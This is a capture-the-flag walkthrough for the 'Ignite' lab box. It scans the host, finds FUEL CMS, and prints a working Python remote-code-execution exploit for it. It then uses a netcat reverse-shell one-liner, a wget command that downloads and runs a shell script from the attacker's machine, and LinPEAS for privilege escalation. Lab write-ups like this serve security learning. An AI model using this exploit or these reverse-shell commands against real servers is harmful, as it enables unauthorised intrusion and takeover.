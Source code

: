 # Ignite

### A new start-up has a few issues with their web server.

### Root the box! Designed and created by DarkStar7471, built by Paradox.

## Recognition

### NMAP

> nmap -sCV -A -O 10.10.226.192

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 15:17 EDT
Nmap scan report for 10.10.226.192
Host is up (0.77s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/23%OT=80%CT=1%CU=42858%PV=Y%DS=4%DC=T%G=Y%TM=5F932C
OS:B0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   472.70 ms 10.4.0.1
2   ... 3
4   794.13 ms 10.10.226.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.72 seconds

```

### Site

![image](https://user-images.githubusercontent.com/53917092/97047048-bb5d0500-154e-11eb-9d20-36f4418aec03.png)

![image](https://user-images.githubusercontent.com/53917092/97047124-d92a6a00-154e-11eb-890b-a2e6fc7d34ca.png)

#### Visiting /fuel

we have a login page

![image](https://user-images.githubusercontent.com/53917092/97047273-155dca80-154f-11eb-84ce-b39629091079.png)


So I searched about this system (fuelcms) on the exploitdb site and found this:

![image](https://user-images.githubusercontent.com/53917092/97047803-e3993380-154f-11eb-95d2-cf25f25b5bac.png)

I will use the RCE Exploit because other else requires authentication and we don't have any credentials

the exploit be like

```

import requests
import urllib

url = raw_input('target (http://IP:PORT) : ')
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

and it uses python2

### Exploiting

![image](https://user-images.githubusercontent.com/53917092/97048985-4e973a00-1551-11eb-99fa-5cbcd09522a4.png)

## getting a reverse shell

using the RCE we check that the machine has WGET command

![image](https://user-images.githubusercontent.com/53917092/97049144-91591200-1551-11eb-869f-77e1d309f88e.png)

so I will use this to download and run a reverse shell file

so I created a .sh file on my machine that contains it:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f

and to access the machine, I used a python server

> nc -lvp PORT

> python3 -m http.server 80

![image](https://user-images.githubusercontent.com/53917092/97050038-0c6ef800-1553-11eb-8d9e-7a41cee2fbdf.png)

now I will download the file and run it in the box using RCE

> wget IP/revshell.sh -O /tmp/revshell.sh; sh /tmp/revshell.sh

![image](https://user-images.githubusercontent.com/53917092/97050364-97e88900-1553-11eb-8070-f63957ed97fd.png)

![image](https://user-images.githubusercontent.com/53917092/97050414-af277680-1553-11eb-9c0a-82eb8efaedfa.png)

it works

### getting a tty

checking if we have python

> whereis python

![image](https://user-images.githubusercontent.com/53917092/97050672-2d841880-1554-11eb-8c26-34b715bb5ed8.png)

we have python2 and python3, and we will use it

> python -c 'import pty;pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/53917092/97050816-6de39680-1554-11eb-884c-304bdb41cec8.png)

### User Flag

![image](https://user-images.githubusercontent.com/53917092/97051978-8f458200-1556-11eb-9655-5c6aef004e72.png)

### Privilege escalation

again using wget, we will use LinPeas to enumarate possibles privilege escalation vectors

downloading

again we will download on our machine, upload a server and then download in the box through our machine

in our machine:

> wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

> chmod +x linpeas.sh

> python3 -m http.server 80

in the box

> cd /tmp

> wget IP:/linpeas.sh

giving the permissions

> chmod +x linpeas.sh

running

> ./linpeas.sh > output.txt

reading output

> cat output.txt

### Privilege Escalation

![image](https://user-images.githubusercontent.com/53917092/97056470-768d9a00-155f-11eb-8d24-a72a0fcd1d02.png)

checking out this database

![image](https://user-images.githubusercontent.com/53917092/97056626-d08e5f80-155f-11eb-9b0f-9815f51646ee.png)

![image](https://user-images.githubusercontent.com/53917092/97056655-e1d76c00-155f-11eb-9ff1-a64e376d405c.png)

trying using this password

![image](https://user-images.githubusercontent.com/53917092/97056752-177c5500-1560-11eb-84bf-9bac6799a1f9.png)

### ROOT flag

![image](https://user-images.githubusercontent.com/53917092/97056937-8659ae00-1560-11eb-803b-ccae406fa5ab.png)

that's it, thanks for reading